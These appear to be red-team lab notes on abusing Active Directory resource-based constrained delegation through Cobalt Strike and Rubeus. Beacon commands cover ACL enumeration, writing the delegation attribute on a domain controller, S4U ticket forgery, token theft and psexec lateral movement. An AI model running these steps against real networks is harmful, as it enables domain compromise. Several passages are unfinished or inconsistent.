# Resource-Based Constrained Delegation

## Introduction

Resource-based constrained delegation, introduced in Windows Server 2012, allows the resource (the service that needs to be accessed) to control which services can delegate on its behalf. This shifts some of the delegation configuration to the resources themselves rather than just the service accounts. In constrained&#x20;

**Scope of Trust:** enhances the delegation model by allowing resources themselves (services) to specify which services can act on behalf of users.

**Configuration:** The target service (resource) specifies which services can access it using delegation.

**Usage:** Useful in scenarios where multiple services need to access a resource and want to allow specific services to delegate user credentials.

#### <mark style="color:red;">Prerequisites to Attack</mark>:

1. A target computer on which you can modify msDS-AllowedToActOnBehalfOfOtherIdentit&#x79;**.**
2. Control of another principal that has an SPN.

## Enumerate Domain for Write Permissions

todo: add how it works here.

### Get SPN

This must be a computer we control.

```
beacon> powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid

objectsid                                   
---------                                   
S-1-5-21-569305411-121244042-2357301523-1109
```

### Query Domain for Modify Privileges

This query will obtain every domain computer and read their ACL, filtering on the interesting rights

```
beacon> powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs 
| ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl"
 -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
```

## Perform Attack

### Create [SDDL](https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language)

We'll then use this inside an SDDL to create a security descriptor.  The content of msDS-AllowedToActOnBehalfOfOtherIdentity must be in raw binary format.

```sh
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)
```

We can take the descriptor bytes and use `Set-DomainObject`.  When using Cobalt Strike, everything has to be concatenated into a single PowerShell command.

```bash
beacon> powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

Setting 'msDS-AllowedToActOnBehalfOfOtherIdentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 67 233 238 33 138 9 58 7 19 145 129 140 85 4 0 0' for object 'DC-2$'

beacon> powershell Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```



### Perform S4U w/ Rubeus

```sh
// Extract TGT from memory
beacon> execute-assembly C:\Tools\Rubeus.exe triage

[*] Current LUID    : 0x3e7

 ------------------------------------------------------------------------------------------------------------------ 
 | LUID     | UserName                     | Service                                       | EndTime              |
 ------------------------------------------------------------------------------------------------------------------ 

// Dump TGT
beacon> execute-assembly C:\Tools\Rubeus.exe dump /luid:<krbtgt-luid> /service:krbtgt /nowrap

// Perform S4u
beacon> execute-assembly C:\Tools\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:cfoxy 
/msdsspn:cifs/dc-2.rotta.lab /ticket:<ticket-from-dump> /nowrap
...
```



### Pass Ticket to Login session

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:ROTTA 
/username:cfoxy /password:Password123! /ticket:<ticket-from-dump-bross>

[*] Using ROTTA\cfoxy:Password123!

beacon> steal_token 4092
[+] Impersonated ROTTA\bross

beacon> psexec64 <target-FQDN> smb
```
